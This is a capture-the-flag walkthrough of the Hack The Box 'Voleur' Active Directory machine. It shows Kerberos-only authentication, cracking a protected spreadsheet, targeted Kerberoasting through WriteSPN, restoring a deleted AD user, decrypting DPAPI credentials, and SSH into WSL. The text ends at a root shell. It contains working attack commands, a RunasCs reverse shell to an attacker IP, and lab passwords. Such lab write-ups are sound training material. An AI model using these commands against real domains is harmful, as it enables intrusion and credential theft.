This box is rated medium difficulty on HTB. It involves us configuring our system for Kerberos authentication in order to grab a password-protected excel spreadsheet from an SMB share. After cracking that, we're granted service account credentials which has WriteSPN permissions over another account that can be abused in a targeted Kerberoasting attack. Once on the Domain Controller, we recover a deleted account from the AD Recycle Bin whose home directory contains DPAPI credentials for another user. Finally, that user gives us access to an SSH private key to a Windows Subsystem for Linux that allows us to grab the NTDS.dit archive and SYSTEM registry in order to extract all domain hashes.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the typical AD ports.

```
$ sudo nmap -sCV 10.129.22.212 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-21 21:31 -0400
Nmap scan report for 10.129.22.212
Host is up (0.055s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-22 09:31:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2222/tcp open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2026-04-22T09:31:57
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.44 seconds
```

Looks like a Windows machine with Active Directory components installed on it. Since there are no web servers present, I'll mainly focus on Kerberos, SMB, and LDAP for gathering information on the domain. I should note that there is an SSH server on port 2222 to keep in mind.

## Service Enumeration
I quickly run a dig on the DNS server to check for other hostnames as default scripts didn't reveal the FQDN, even though the ports align with that of a Domain Controller.

```
$ dig @10.129.22.212 voleur.htb CNAME

; <<>> DiG 9.20.20-1-Debian <<>> @10.129.22.212 voleur.htb CNAME
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 58462
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;voleur.htb.                    IN      CNAME

;; AUTHORITY SECTION:
voleur.htb.             3600    IN      SOA     dc.voleur.htb. hostmaster.voleur.htb. 168 900 600 86400 3600

;; Query time: 60 msec
;; SERVER: 10.129.22.212#53(10.129.22.212) (UDP)
;; WHEN: Tue Apr 21 21:37:48 EDT 2026
;; MSG SIZE  rcvd: 89
```

That returns two CNAME records under the authority section which I add to my `/etc/hosts` file. This is an assumed breach scenario, meaning we start off with user credentials that will help with initial enumeration. 

Testing them on the SSH server fails and does not accept passwords, so we should be on the lookout for keys applicable here.



### NTLM Auth Disabled
Using Netexec to verify these creds over SMB reveals that NTLM authentication has been disabled for this domain. Luckily for us, Netexec/CrackMapExec has a built-in function to use Kerberos auth instead by means of the `-k` flag. We should also sync our machines time to the DC to prevent any clock skew errors.

First I must disable and stop my **timsyncd** and **chronyd** daemons beacuse VMWare likes to reset those options. Then we can use rdate or ntpdate to match our local instance to that of the domain's.

```
--Stopping my machine's timsyncd processes--
$ sudo systemctl stop systemd-timesyncd
$ sudo systemctl disable systemd-timesyncd
$ sudo systemctl stop chronyd 2>/dev/null
$ sudo systemctl disable chronyd 2>/dev/null

--Set Clock skew to match the DC's--
$ sudo rdate -n dc.voleur.htb
```



### IT SMB Share
After getting that sorted out, we can list the available shares and find that we have read permissions on one of the non-standard ones.



We'll need to setup some other things in order to use Kerberos on other services, so I generate a krb5.conf file and save it under my `/etc` directory for good measure.

```
$ nxc smb dc.voleur.htb --generate-krb5-file krb5.conf                  
SMB         10.129.22.212   445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.22.212   445    DC               [+] krb5 conf saved to: krb5.conf
SMB         10.129.22.212   445    DC               [+] Run the following command to use the conf file: export KRB5_CONFIG=krb5.conf
                                                                                                                                                      
$ sudo cp krb5.conf /etc/krb5.conf
```

I'll use Impacket's [smbclient.py](https://github.com/fortra/impacket/blob/master/examples/smbclient.py) script to connect to the server while specifying the `-k` flag for Kerberos usage.



### Excel Spreadsheet
Inside is only an Excel spreadsheet for an access review. Using file against it shows that it's been password-protected, but we can convert it into a crackable format to recover the contents of the file. I also install LibreOffice with the APT package manager in order to open the sheet.

```
$ sudo apt update && sudo apt install libreoffice -y

$ office2john Access_Review.xlsx > xlsxHash

$ john xlsxHash --wordlist=/opt/seclists/rockyou.txt
```



That cracks relatively quick, giving us access to the file's contents. Inside we can find credentials for a user named Todd, who has recently left the organization; This can be confirmed by testing the password which throws an error.



Apart from that dead user account, we now have a ton of information on the domain, including two service account passwords which opens up a few doors for us. This also reveals that Ryan's account does not have Kerberos Pre-Authentication enabled which could've allowed us to AS-REP Roast his account if we hadn't started with credentials.

## Mapping AD with BloodHound
After confirming that these service account creds are valid, I fire up BloodHound to start mapping the domain because usually these accounts have special permissions that will help us pivot between users. I use BloodHound-Python instead of SharpHound to collect the data due to our lack of terminal access.

```
$ nxc smb dc.voleur.htb -u svc_ldap -p '[REDACTED]' -k

$ nxc smb dc.voleur.htb -u svc_iis -p '[REDACTED]' -k

$ bloodhound-python -c all -d voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -ns 10.129.22.212
```



Taking some time to let BH ingest the JSON files, I start by looking at what outbound object control permissions that the accounts we control have. A bit of analyzing shows that the _svc_ldap_ account has WriteSPN permissions over the _svc_winrm_ account, meaning we're able to perform a targeted Kerberoasting attack and attempt to crack the NTLM hash offline.



Usually this would be a shot in the dark as service accounts have complex passwords (as seen with the two recovered), but referring back to the Access Control spreadsheet, there was a note disclosing that a support technician recently reset it.

### Targeted Kerberoasting
If you're unfamiliar with this attack - Targeted Kerberoasting is when an attacker selectively requests Kerberos service tickets (TGS) for specific accounts they're interested in (often high-value users), then extracts and cracks those tickets offline to recover the account's password.

Having _WriteSPN_ permissions lets an attacker add or modify a Service Principal Name on a target account, effectively turning it into a "service" so they can request a TGS for it - even if it wasn't originally Kerberoastable - making password extraction possible.

To carry out this attack, I begin by changing the _svc_winrm_ account's SPN to be an arbitrary value using [Bloody-AD](https://github.com/CravateRouge/bloodyAD).

```
$ bloodyad -d voleur.htb -k -u 'svc_ldap' -p 'M1XyC9pW7qT5Vn' --host dc.voleur.htb set object svc_winrm servicePrincipalName -v HTTP/pwned
[+] svc_winrm's servicePrincipalName has been updated
```

Next, I start Kerberoasting with Netexec over LDAP, which grants us the TGS for the _svc_winrm_ account. Sending it over to Hashcat or JohnTheRipper rewards us with the cleartext version.



### Initial Foothold
In order to authenticate over WinRM, we'll need to generate a ticket for the _svc_winrm_ account with kinit. If these commands are not present on your machine, we can install them with `sudo apt install krb5-user -y` on Kali systems.

```
$ kinit svc_winrm
Password for svc_winrm@VOLEUR.HTB: 
                                                                                                                                                      
$ klist          
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: svc_winrm@VOLEUR.HTB

Valid starting       Expires              Service principal
04/22/2026 07:19:18  04/22/2026 17:19:18  krbtgt/VOLEUR.HTB@VOLEUR.HTB
        renew until 04/23/2026 07:19:08
```

After confirming that we have a ticket with klist, we can grab a shell with via WinRM while specifying the realm with the `-r` flag to match the domain.



At this point we can grab the user flag under their Desktop folder and start looking at ways to escalate privileges towards administrator.

## Privilege Escalation
Listing the users directory shows quite a few other accounts, but it doesn't seem like we have access to any of their files, nor do we have any special privileges or permissions.



### Recovering Deleted User
Recently I started checking the AD Recycle Bin because of it's presence in other boxes and how difficult it is to spot in BloodHound. Looking back on other account permissions, I discover that _svc_ldap_ is apart of the _Restore_Users_ group so this is a good bet.

```
$ Get-ADOptionalFeature 'Recycle Bin Feature'

DistinguishedName  : CN=Recycle Bin Feature,CN=Optional Features,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=voleur,DC=htb
EnabledScopes      : {CN=Partitions,CN=Configuration,DC=voleur,DC=htb, CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=voleur,DC=htb}
FeatureGUID        : 766ddcd8-acd0-445e-f3b9-a7f9b6744f2a
FeatureScope       : {ForestOrConfigurationSet}
IsDisableable      : False
Name               : Recycle Bin Feature
ObjectClass        : msDS-OptionalFeature
ObjectGUID         : ba06e572-1681-46f7-84d2-e08b001f5c51
RequiredDomainMode :
RequiredForestMode : Windows2008R2Forest
```

Only problem is that we aren't able to get direct CLI access from _svc_ldap_, so I upload [RunasCs.exe](https://github.com/antonioCoco/RunasCs) which lets us execute commands in the context of other users. This also supports the `-r` flag that redirects Pty I/O to a specified host, which let's us create a makeshift reverse shell.

```
$ .\RunasCs.exe svc_ldap [REDACTED] powershell -r 10.10.14.243:443
```



Now I'll check what objects have been deleted and are currently in the recycle bin. Because the Active Directory Recycle Bin only marks objects as "deleted" and moves them to a hidden deleted-object container (preserving them for potential recovery), the data still exists in the directory database until it fully expires and is garbage-collected, so it's not immediately or securely removed.

```
$ Get-ADObject -filter 'isDeleted -eq $true-and name -ne "Deleted Objects"' -includeDeletedObjects
```



In our case, the aforementioned user that left the organization is still in here, letting us recover his account with the `Restore-ADObject` cmdlet along with the ObjectGUID.

```
$ Restore-ADObject -Identity 1c6b1deb-c372-4cbb-87b1-15031de169db
```

Once that's completed, we can repeat the earlier steps with the password found in the spreadsheet to get a shell as _Todd.Wolfe_.



### Decrypting DPAPI
Listing group permissions reveals that we are apart of the Second-Line Technicians and can now access a new directory in the IT share. The only thing inside is the deleted home directory for _Todd.Wolfe_, which holds a pair of stored credentials in a hidden AppData folder. I also check the PowerShell history file, but there was nothing of interest within.

```
cd "C:\it\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials"
```



A bit of research shows that the master key is available to us under the Protect folder with a matching SID for Todd's account.

```
cd "C:\it\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\microsoft\protect\S-1-5-21-3927696377-1337352550-2781715495-1110"
```



We can transfer these by uploading [nc.exe](https://github.com/int0x33/nc.exe/) to the machine and utilizing redirection operators, or we can connect to it over SMB as it's already being shared. Note that there is a reset script in place, so we may have to restore the deleted ObjectGUID before grabbing access.

```
$ impacket-smbclient voleur.htb/'todd.wolfe':'[REDACTED]'@dc.voleur.htb -k
```

After transferring those to our local machine, we can recover the stored credentials with Impacket's [dpapi.py](https://github.com/fortra/impacket/blob/master/examples/dpapi.py) script

```
$ impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password [REDACTED]
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83

$ impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : [REDACTED]
```

### WSL Backup Privileges
This rewards us with domain credentials for Jeremy.Combs and We can generate another Kerberos ticket to get WinRM access, similar to the _svc_winrm_ account earlier. BloodHound shows that this user is in the Third-Line Technicians group, giving him access to that directory on the SMB share.



Looking inside of it grants us an _id_rsa_ private key which can be used to login at the SSH server on port 2222. Judging from the note left, it hosts a Windows Subsystem for Linux that is used to backup files without the need for Windows utilities.



This private key does not work for Jeremy's account, but we did find the _svc_backup_ account listed as a domain user. Attempting to login as them succeeds after giving the file the proper permissions.



Listing Sudo permissions reveals that we have full administrative rights over this subsystem, so we're able to just spawn a root shell right away.

